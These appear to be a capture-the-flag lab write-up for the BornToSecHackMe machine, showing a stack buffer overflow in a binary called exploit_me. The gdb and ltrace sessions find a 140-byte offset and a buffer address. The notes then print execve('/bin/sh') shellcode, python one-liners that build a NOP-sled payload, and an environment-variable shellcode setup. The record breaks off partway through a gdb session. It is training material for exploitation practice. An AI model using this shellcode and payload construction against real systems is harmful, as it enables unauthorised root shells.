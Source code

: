 Second x means that password is stred in /etc/shadow file




https://wiremask.eu/tools/buffer-overflow-pattern-generator/

zaz@BornToSecHackMe:~$ gdb ./exploit_me
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Starting program: /home/zaz/exploit_me Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x37654136 in ?? ()


Offset 140

zaz@BornToSecHackMe:~$ ltrace ./exploit_me aaaaaaaaaaaaaa
__libc_start_main(0x80483f4, 2, 0xbffff7f4, 0x8048440, 0x80484b0 <unfinished ...>
strcpy(0xbffff6d0, "aaaaaaaaaaaaaa")                                                                      = 0xbffff6d0
puts("aaaaaaaaaaaaaa"aaaaaaaaaaaaaa
)                                                                                    = 15
+++ exited (status 0) +++

Input is stored at 0xbffff6d0


[shellcode](http://shell-storm.org/shellcode/files/shellcode-827.html):
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

Shellcode for `execve("/bin/sh")` from [here](https://shell-storm.org/shellcode/files/shellcode-575.html):
"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"


* 23 bytes -> shellcode
* 117 bytes (140 - 23) -> padding
* 4 bytes -> 0xbffff6d0

python -c 'print "\x90" * 50 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "a" * 67 + "\xd0\xf6\xff\xbf"'


"\x31\xc0\x50\x48\x8b\x14\x24\xeb\x10\x54\x78\x06\x5e\x5f\xb0\x3b\x0f\x05\x59\x5b\x40\xb0\x0b\xcd\x80\xe8\xeb\xff\xff\xff/bin/sh"
`python -c 'print "\x90" * 50 + "\x31\xc0\x50\x48\x8b\x14\x24\xeb\x10\x54\x78\x06\x5e\x5f\xb0\x3b\x0f\x05\x59\x5b\x40\xb0\x0b\xcd\x80\xe8\xeb\xff\xff\xff/bin/sh" + "a" * 52 + "\xd0\xf6\xff\xbf"'`



saving shellcode in buffer doesn't work so env variable:

zaz@BornToSecHackMe:~$ export SHELLCODE=`python -c 'print "\x90" * 200 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"'`
zaz@BornToSecHackMe:~$ gdb ./exploit_me
(gdb) b main
Breakpoint 1 at 0x80483f7
(gdb) r
Starting program: /home/zaz/exploit_me

